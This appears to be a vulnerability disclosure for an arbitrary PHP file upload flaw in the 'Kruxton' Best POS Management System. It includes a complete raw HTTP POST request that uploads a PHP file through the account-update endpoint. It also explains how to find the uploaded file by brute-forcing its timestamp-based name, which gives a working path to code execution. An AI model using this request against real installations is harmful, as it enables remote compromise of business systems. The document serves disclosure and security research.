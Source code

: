 1. Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

2. Deploy the system

3. The php file upload point is http://172.31.171.96/kruxton/ajax.php?action=update_account

4. The http message is 

   ```
   POST /kruxton/ajax.php?action=update_account&XDEBUG_SESSION_START=11078 HTTP/1.1
   Host: 172.31.171.96
   Content-Length: 698
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: null
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary91u2mx53LUNjwQtX
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
   Connection: close
   
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="email"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="firstname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="lastname"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="password"
   
   value
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="img"; filename="123.php"
   Content-Type: text/plain
   
   <?php phpinfo();?>
   ------WebKitFormBoundary91u2mx53LUNjwQtX
   Content-Disposition: form-data; name="submit"
   
   提交
   ------WebKitFormBoundary91u2mx53LUNjwQtX--
   
   ```

   ![image-20230311152452601](D:\网安学习\tryCVE\kruxton-1.assets\image-20230311152452601.png)

5. and then the system would create a php file in ./kruxton/assets/upload

   ![image-20230311151123673](D:\网安学习\tryCVE\kruxton-1.assets\image-20230311151123673.png)

6. then access page http://172.31.171.96/kruxton/assets/uploads/1678518540_123.php

   ![image-20230311151402551](D:\网安学习\tryCVE\kruxton-1.assets\image-20230311151402551.png)

   The format of the file name is the timestamp plus the file name of the upload. The value of the timestamp is the timestamp corresponding to the time of the upload moment. You can bursting it in the approximate range.

> notice: the user's username and password change to the values passed at upload time